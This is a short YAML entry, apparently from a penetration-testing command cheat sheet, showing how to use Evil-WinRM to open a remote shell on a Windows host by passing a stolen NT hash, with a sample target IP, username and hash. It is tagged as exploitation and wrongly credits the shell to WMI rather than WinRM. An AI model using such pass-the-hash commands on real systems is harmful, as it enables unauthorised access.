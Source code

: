 ```yaml
---
description: |
  Evil-WinRM uses the Windows Management Instrumentation (WMI) to give you an interactive shell on the Windows host. Evil-WinRM supports passing the victim's NT hash for authorization.

  Command Reference:

  	Target IP: 10.10.10.1

  	Username: john

  	NT Hash: c23b2e293fa0d312de6f59fd6d58eae3


command: |
  evil-winrm -i 10.10.10.1 -u john -H c23b2e293fa0d312de6f59fd6d58eae3
items:
  - Username
  - Hash
services:
  - WMI
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/Hackplayers/evil-winrm
---
```

